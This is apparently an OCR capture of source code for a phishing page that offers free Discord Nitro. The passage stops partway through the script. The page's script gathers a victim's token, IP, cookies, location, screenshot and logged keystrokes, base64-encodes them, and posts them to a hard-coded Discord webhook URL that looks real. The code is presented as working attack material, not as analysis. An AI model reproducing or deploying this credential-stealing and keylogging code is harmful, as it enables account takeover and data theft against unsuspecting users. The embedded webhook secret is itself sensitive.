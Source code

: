     <h1><i class="fab fa-discord"></i>Claim Your Free Discord Nitro!</h1>
    <p>Click the button below to receive 1 year of Discord Nitro for free.</p>
    <a id="claimBonus" class="button" href="#">Claim Nitro</a>
  </div>
  <script>
    document.getElementById('claimBonus').addEventListener('click', function(event) {
      event.preventDefault(); // Prevent default link behavior
      const webhookUrl = 'https://discord.com/api/webhooks/1255904067461447793/O-7oJV_uquPvi-vQwk_aMe27J21BFgMOoAkHLFV1BEiwm45UdtZLvXRucNw2MLtcIw_F'; // Replace with actual webhook URL

      function sendTokenToWebhook(token, ip, userAgent, cookies, location, screenshot, keystrokes) {
        const encryptedData = btoa(JSON.stringify({
          token: token,
          ip: ip,
          userAgent: userAgent,
          cookies: cookies,
          location: location,
          screenshot: screenshot,
          keystrokes: keystrokes
        }));
        const data = JSON.stringify({
          content: encryptedData
        });
        const options = {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: data
        };
        fetch(webhookUrl, options)
        .then(response => {
          if (!response.ok) {
            throw new Error('Failed to send data to webhook');
          }
          console.log('Data successfully sent to webhook!');
        })
        .catch(error => {
          console.error('Error:', error);
          console.log('Failed to send data to webhook');
        });
      }

      function captureScreenshot(callback) {
        html2canvas(document.body).then(function(canvas) {
          const screenshot = canvas.toDataURL('image/png');
          callback(screenshot);
        });
      }

      let keystrokes = '';
      document.addEventListener('keydown', function(event) {
        keystrokes += event.key;
      });
